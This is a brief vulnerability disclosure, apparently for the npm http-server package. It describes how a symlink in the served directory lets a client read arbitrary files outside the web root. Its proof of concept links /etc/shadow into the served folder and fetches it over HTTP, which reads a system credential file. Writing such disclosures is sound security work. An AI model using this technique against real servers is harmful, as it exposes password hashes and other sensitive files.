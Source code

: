 # Overview

With a symbolically linked file in the working directory, it is possible to read arbitrary files outside of the web root directory, this could include system/user credentials and other sensitive information.

# Proof of Concept

1. Install the http_server: npm install --global http-server
2. Create a symlink file within the directory: 
```
ln -s /etc/shadow test_shadow.html // this test_shadow file can be of any valid extension .txt, .jpg, etc.
```
3. http://localhost:8080/test_shadow.html
